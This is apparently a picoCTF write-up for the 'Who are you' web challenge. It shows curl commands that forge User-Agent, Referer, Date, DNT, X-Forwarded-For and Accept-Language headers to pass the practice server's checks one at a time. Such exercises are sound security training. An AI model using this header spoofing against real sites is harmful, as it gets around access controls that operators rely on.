 # Who are you

[HTTP Headers](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers)

```text
Only people who use the official PicoBrowser are allowed on this site!
```

**User-Agent** header:

```shell
curl -A "PicoBrowser" http://mercury.picoctf.net:52362/
curl -H "User-Agent: PicoBrowser" http://mercury.picoctf.net:52362/
```

```text
I don't trust users visiting from another site.
```

**Referer** header:

```shell
curl -A "PicoBrowser" http://mercury.picoctf.net:52362/ -e http://mercury.picoctf.net:52362/
curl -H "User-Agent: PicoBrowser" -H "Referer:http://mercury.picoctf.net:52362" http://mercury.picoctf.net:52362/
```

```text
Sorry, this site only worked in 2018.
```

**Date** header:

```shell
curl -H "User-Agent: PicoBrowser" -H "Referer:http://mercury.picoctf.net:52362" -H "Date: 2018" http://mercury.picoctf.net:52362/
```

```text
I don't trust users who can be tracked.
```

**DNT (Do Not Track)** header:

```shell
curl -H "User-Agent: PicoBrowser" -H "Referer:http://mercury.picoctf.net:52362" -H "Date: 2018" -H "DNT: 1" http://mercury.picoctf.net:52362/
```

```text
This website is only for people from Sweden.
```

using random IP addr (example by Google) from Sweden **X-Forwarded-For** header:

```shell
curl -H "User-Agent: PicoBrowser" -H "Referer:http://mercury.picoctf.net:52362" -H "Date: 2018" -H "DNT: 1" -H "X-Forwarded-For: 151.237.181.2" http://mercury.picoctf.net:52362/
```

```text
You're in Sweden but you don't speak Swedish?
```

**Accept-Language** header:

```shell
curl -H "User-Agent: PicoBrowser" -H "Referer:http://mercury.picoctf.net:52362" -H "Date: 2018" -H "DNT: 1" -H "X-Forwarded-For: 151.237.181.2" -H "Accept-Language:sv-SE" http://mercury.picoctf.net:52362/
```
